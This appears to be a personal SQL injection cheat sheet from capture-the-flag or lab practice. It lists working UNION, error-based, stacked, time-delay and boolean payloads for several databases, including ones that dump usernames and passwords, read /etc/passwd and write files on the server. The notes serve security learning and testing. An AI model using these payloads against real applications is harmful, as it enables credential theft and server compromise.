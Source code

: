 `SELECT name, description FROM Products WHERE ID='3' UNION  SELECT username, password FROM accounts`  

With group_concat **_--- use when there's only 1 column? and sql is only showing the first entry_**

`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`
**_sqli_one = db_**

`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`  
**_staff_users = table_**

- single column concat `' UNION SELECT username || '~' || password FROM users--`

`1 UNION SELECT null,null,null,flag from exercise.secrets` where flag is column, exercise is db, secrets is table > null,null,null,null cause 4 columns


### Sorting
- can the app sort stuff? inject!
- delete value of param, inject stuff

### Boundary Testing
- same as sorting `order by 5` 

### Error Based Payloads
[sqlwiki netspi](https://sqlwiki.netspi.com/injectionTypes/errorBased/#oracle)
- MSSQL `cast(@@version as integer)`
    - `1+AND+8671+IN+(SELECT+(CHAR(0)%2b(SELECT+(CASE+WHEN+(8671%3d8671)+THEN+(SELECT+STRING_AGG(flag,+',')+from+exercise.information_schema.columns+where+TABLE_NAME+=+'secrets')`
- Postgresql `cast(version() as integer)`
- MYSQL `extractvalue('',concat('>',version()))`
- Oracle `to_char(dbms_xmlgen.getxml('select "'|| (select substr(banner,0,30) from v$version where rownum=1)||'" from sys.dual'))` 

### Stacked Queries

- `asc;select+flag+from+flags;` adding another query after the param value `asc`
- `1;WAITFOR DELAY '0:0:5'--`
- for postgresql `;SELECT+PG_SLEEP(5)--`

### Boolean

- `(SELECT (CASE WHEN (4255=4255) THEN 1 ELSE (SELECT 9369 UNION SELECT 1823) END))`

### Reading and Writing Files

- Postgresql;
    - To read a file and then save to a table `create table tmp(data text); copy tmp from '/etc/passwd'; select * from tmp;`
    - Alternative is `select pg_read_file('/etc/passwd')`
- MYSQL
    - Check if mysql is configured to read all files `SELECT @@GLOBAL.secure_file_priv;` this will return what folder we have access to. If output is null meaning it is disabled and we can read anything.
    - To write a file use `into outfile` `SELECT * FROM users INTO OUTFILE '/var/lib/mysql-files/test.txt'` The file location must be writable to the OS user the database software is running as. The `/var/lib/mysql-files` is the output of `SELECT @@GLOBAL.secure_file_priv` **_I have a note of `into outfile` in ReadME.md_**
    - To read the file use `load_file()` `SELECT LOAD_FILE('/var/lib/mysql-files/test.txt')`
